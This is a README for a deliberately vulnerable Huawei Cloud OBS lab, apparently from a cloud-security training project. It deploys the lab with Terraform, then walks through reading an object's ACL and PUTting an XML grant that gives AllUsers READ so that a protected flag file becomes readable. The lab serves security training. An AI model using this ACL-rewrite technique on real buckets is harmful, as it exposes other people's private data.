 # Huawei Cloud OBS object ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is a vulnerability environment scenario for building HUAWEI CLOUD Object ACL.

After you build an environment with Terraform, users can read data that would otherwise not be read by modifying object's ACL policy.

## Deployment Environment

run in a container

```shell
cd /TerraformGoat/huaweicloud/obs/object_acl_writable/
```

Edit the `terraform.tfvars` file and fill in the file with your `huaweicloud_access_key` and `huaweicloud_secret_key`.

> The access key can be found in HUAWEI CLOUD [Console --> My Credentials]

```shell
vim terraform.tfvars
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![image](../../../images/1650779200.png)

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Object ACL read and write permissions, and the Object Key is the flag.

## Vulnerability Utilization

Try to read the flag file and find that it prompts access denied.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650779408.png)

Attempt to read the ACL policy of the flag file and found that it can be read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```

![image](../../../images/1650779592.png)

Try to use the PUT method to upload the Object ACL policy of the flag file, add the following policy to the original policy, and find that it can be uploaded.

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```

![image](../../../images/1650779871.png)

Try to read the flag file again, you can see that the flag file was successfully read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650780002.png)

## Destroy the environment

```shell
terraform destroy
```
